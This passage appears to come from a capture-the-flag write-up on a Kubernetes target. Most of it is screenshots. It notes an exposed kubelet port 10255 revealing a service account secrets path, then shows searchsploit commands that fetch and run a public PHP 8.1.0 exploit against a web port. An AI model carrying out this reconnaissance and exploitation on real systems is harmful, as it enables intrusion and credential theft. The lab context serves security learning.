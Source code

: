 <img width="1226" height="187" alt="image" src="https://github.com/user-attachments/assets/8798172c-aa7f-48de-9b29-8e0e0271742c" />

<br>
<br>
<br>
<p align="center">10255</p>

<img width="1235" height="304" alt="image" src="https://github.com/user-attachments/assets/c19a830d-5956-4ac6-b215-e24d51d732d9" />

<br>
<br>
<br>
<p>  
  
- navigated to xx.xxx.xx.xx:10255/pods<br>
- identified /var/run/secrets/kubernetes.io/serviceaccount</p>

<img width="1136" height="103" alt="image" src="https://github.com/user-attachments/assets/7edd1cf0-1b61-4f5d-9fda-634c0c2b4367" />

<br>
<br>
<br>

<img width="1225" height="420" alt="image" src="https://github.com/user-attachments/assets/0b543189-b54c-40e8-869a-bbe632032a90" />

<br>
<br>
<br>

<img width="1133" height="527" alt="image" src="https://github.com/user-attachments/assets/9c3bcdd7-8879-4d46-b9ee-6f81f7c3b066" />

<br>
<br>
<br>
<p align="center">30679</p>

<img width="936" height="247" alt="image" src="https://github.com/user-attachments/assets/4f702bb7-0012-4c1e-b2f6-e48501897789" />

<br>
<br>
<br>
<h1 align="center">Weaponization<a id='5'></a></h1>


```bash
:~/FrankandHerbyTryAgain# searchsploit PHP 8.1.0
```

```bash
:~/FrankandHerbyTryAgain# searchsploit -m 49933.py
```

```bash
:~/FrankandHerbyTryAgain# python3 49933.py
Enter the full host url:
http://xx.xxx.xx.xx:30679/
```
